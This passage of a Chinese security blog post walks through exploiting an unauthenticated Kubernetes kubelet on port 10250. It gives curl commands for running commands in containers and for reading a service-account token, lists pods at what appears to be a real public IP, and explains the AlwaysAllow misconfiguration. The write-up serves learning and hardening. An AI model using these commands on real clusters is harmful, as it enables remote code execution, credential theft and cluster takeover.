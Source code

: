 ![fe67a4c31ec759ad455cba9db343c341.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfJb38ticTXLTvzLVltNuTvdBtJ82xzldKH9hibV4r9vMWUBXWPJ86DicFg/640?wx_fmt=png&from=appmsg "")  
  
再访问这个端口就会发现不需要认证，那么如何执行命令呢？  
## 1、执行命令  
```
curl -XPOST -k "https://${IP_ADDRESS}:10250/run/<namespace>/<pod>/<container>" -d "cmd=<command-to-run>"
```  
  
这里需要三个参数  
  
1、namespace  
  
2、pod  
  
3、container  
  
在这里获取  
```
https://8.210.134.222:10250/runningpods/
```  
  
![fa245847f0b9fcef1d6e995e8319df4f.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf8m7yRR9SWNue2qDAm2oH1e69l2OgFKnlPibXmibxwUtYMmVGG915pnwg/640?wx_fmt=png&from=appmsg "")  
  
![f83395499bf23e7c7f0799a7647c7beb.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfnvZic7NGUkLUEKWoKSzyHmbSk4uvN9tMBswpLbzgRtW4t9ffWCr6E7g/640?wx_fmt=png&from=appmsg "")  
## 2、获取凭证  
```
curl -XPOST -k https://ip:10250/run/default/attacker/ubuntu -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```  
  
一个 pod 与一个服务账户相关联，该服务账户的凭证（token）被放入该pod中每个容器的文件系统树，在 /var/run/secrets/kubernetes.io/serviceaccount/token  
  
如果服务账号（Service account ）绑定了 cluster-admin （即集群的 admin 权限我们可以对所有namespace下实例进行操作） ，那么我们就可以通过 token 来进行一系列的操作  
  
![image-20220508144853270](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKficS6uJtSYh1QFbJj1Tfn9C1zsLrmPibNpLzibwf7ibkb6xsp2ToB19T5zA/640?wx_fmt=png&from=appmsg "")  
  
  
尝试了一下，这个token是可以登录dashboard的，那么如果绑定的权限够的话，完全可以通过这个token去登录dashboard  
  
![aff0b4e6d7ab33eb334043b5e01fb49e.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfERF8OtnONHbvwo6W42HKozmn1XTiaVZ1hibMldkiasCpPgjyuD0mdIicHA/640?wx_fmt=png&from=appmsg "")  
  
## 3、一些问题  
### 3.1、authorization.mode.AlwaysAllow  
  
![6aaf5d4774c23c2eb4627ae11f046711.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfQ37xFpB3TqdSAaFfLWg1DxuJjDP25SHawqKD4ricYZiczShPhznQo0rw/640?wx_fmt=png&from=appmsg "")  
  
将这里的mode设置为AlwaysAllow之后，那么使用API就不需要鉴权了，默认是使用WebHook，在配置为WebHook请求的时候会返回如下  
  
![19affe828473c9320830a01ea07cdf58.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf7Dv844wXIOGk4QtwR5Na7mtNBw4MCSwss1qKsOKQ564H23Ipxogqiag/640?wx_fmt=png&from=appmsg "")  
  